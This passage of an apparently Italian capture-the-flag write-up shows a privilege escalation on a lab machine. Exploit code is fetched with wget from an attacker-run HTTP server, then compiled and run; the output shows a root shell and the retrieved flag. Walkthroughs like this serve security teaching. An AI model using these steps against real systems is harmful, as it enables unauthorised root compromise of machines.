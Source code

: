 Dopodiché apriamo server python per trasferire il file
```
python -m http.server 1337
```
sulla macchina vittima mettersi in 
```
cd /tmp
```

```
wget http://10.14.99.134:1337/ofs.c
```

```
cc ofs.c -o ofs
```

```
./ofs
```

```
$ ./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off
# whoami
root

```

```
# ls /root
# cd /root
# las
sh: 4: las: not found
# cd /root
# ls
# ls -al 
total 44
drwx------  3 root root 4096 Apr 29  2018 .
drwxr-xr-x 22 root root 4096 Apr 24  2018 ..
-rw-r--r--  1 root root   19 May  3  2018 .bash_history
-rw-r--r--  1 root root 3106 Feb 19  2014 .bashrc
drwx------  2 root root 4096 Apr 28  2018 .cache
-rw-------  1 root root  144 Apr 29  2018 .flag.txt
-rw-r--r--  1 root root  140 Feb 19  2014 .profile
-rw-------  1 root root 1024 Apr 23  2018 .rnd
-rw-------  1 root root 8296 Apr 29  2018 .viminfo
# cat .flag.txt
Alec told me to place the codes here: 

568628e0d993b1973adc718237da6e93

If you captured this make sure to go here.....
/006-final/xvf7-flag/

```

```
568628e0d993b1973adc718237da6e93
```

